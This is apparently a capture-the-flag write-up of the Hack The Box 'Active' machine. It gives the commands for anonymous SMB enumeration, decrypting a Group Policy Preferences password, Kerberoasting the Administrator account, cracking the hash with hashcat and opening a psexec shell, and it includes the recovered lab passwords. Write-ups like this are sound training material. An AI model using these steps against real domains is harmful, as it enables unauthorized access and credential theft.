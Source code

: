 ```yaml
---
layout: post
title: Write up for Active Machine from Hach The Box
categories: [writeup]
tags: [HTB, AD, Kerbroasting, GPP]
---
```


![](/assets/active/Active.png)

---|---
**PLATFORM**    | HackTheBox
**MACHINE**     | active
**OS**          | Windows
**IP**          | 10.10.10.100
**FQDN**        | active.htb

## Summary

We Accessed `Replication` share without credentials, this share was a copy of `SYSVOL`, it contained a file `Groups.xml` which is used to store `Group Policy Preferences` informations including credentials. The password was encrypted using `AES-256` but were able to decrypt it because the decryption key has been disclosed by Microsoft.

We were able to obtain the password hash of `Administrator` because it has a `SPN`, then crack it to get the password, this was easily done due to a weak password policy.

## Vulns

* Information Disclosure - Groups.xml in Replication share
* Kerberoasting - CIFS spn affiliated with administrator

## Enum

### nmap

Initial nmap scan reveals multiple open ports including 88 (kerberos), 445 (smb), ldap (389) and rpc (135). The presense of these ports incdicate that this is a domain controller in the domain `ACTIVE.HTB`

![](/assets/active/000.png)

### port 445

Enumerating SMB shares shows that we have anonymous Read access over `Replication` share

```sh
crackmapexec smb 10.10.10.100 -u '' -p '' --shares
```

![](/assets/active/001.png)

This share seems to be a copy of `SYSVOL` share which is used to store group policy templates, log on, logoff, startup and shutdown scripts.

```sh
smbclient -N //10.10.10.100/Replication
```

![](/assets/active/002.png)

In `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\` there is a file `Groups.xml` containing `SVC_TGS` user's credentials.

![](/assets/active/003.png)

![](/assets/active/004.png)

```
cpassword="edBSHOwhZLTjtQS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYwNglVmQ"
userName="active.htb\SVC_TGS"
```

The password is encrypted using AES-256 but the decryption key has been disclosed by [Microsoft](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)

## Foothold

After obtaining the encrypted GPP password, we used `gpp-decrypt` tool to decrypt it. You can download the tool with the following command `sudo apt install gpp-decrypt`

```sh
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![](/assets/active/005.png)

The password of `SVC_TGS` is `GPPstillStandingStrong2k18`

This user have read access over multiple shares

```sh
crackmapexec smb 10.10.10.100 -d active.htb -u svc_tgs -p GPPstillStandingStrong2k18 --shares
```

![](/assets/active/006.png)

We could access `SVC_TGS` home directory from `Users` share and get the first flag.

```sh
smbclient -U active.htb/svc_tgs%GPPstillStandingStrong2k18 //10.10.10.100/Users
```

![](/assets/active/007.png)

## PrivEsc

**What is a SPN?**

> SPN stands for Service Principal Name, it is an attribute that ties a service to a user account within the AD.

SPNs could be leveraged by an attacker to get a hash that can be cracked using a tool such as hashcat and obtain the password of the user associated with it. This type of attack is called [Kerberoasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast#kerberoast)

We found a `SPN` affiliated with the user `Administrator`.

```sh
GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs:GPPstillStandingStrong2k18
```

![](/assets/active/008.png)

We requested a Kerberos ticket for the spn `CIFS`, this ticket was encrypted using the password hash of the user affiliated with this SPN, in this case the user was `Administrator`

```sh
GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/svc_tgs:GPPstillStandingStrong2k18 -request | tee tgs.hash
```

![](/assets/active/009.png)

We were able to crack this hash offline using `hashcat`.

```sh
hashcat -a 0 -m 13100 tgs.hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

![](/assets/active/010.png)

The `Administrator`'s password is `Ticketmaster1968`.

As Administrator, we have full access over all the shares.

Here we accessed the `C$` share which is the root of the file system.

```sh
smbclient -U active.htb/administrator%Ticketmaster1968 //10.10.10.100/C\$
```

![](/assets/active/011.png)

We can also leverage the write access over all the share to get a reverse shell using a tool such as `psexec`.

```sh
psexec.py -dc-ip 10.10.10.100 active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

![](/assets/active/012.png)

This way, we accessed the DC as `Administrator` and we got the root flag.
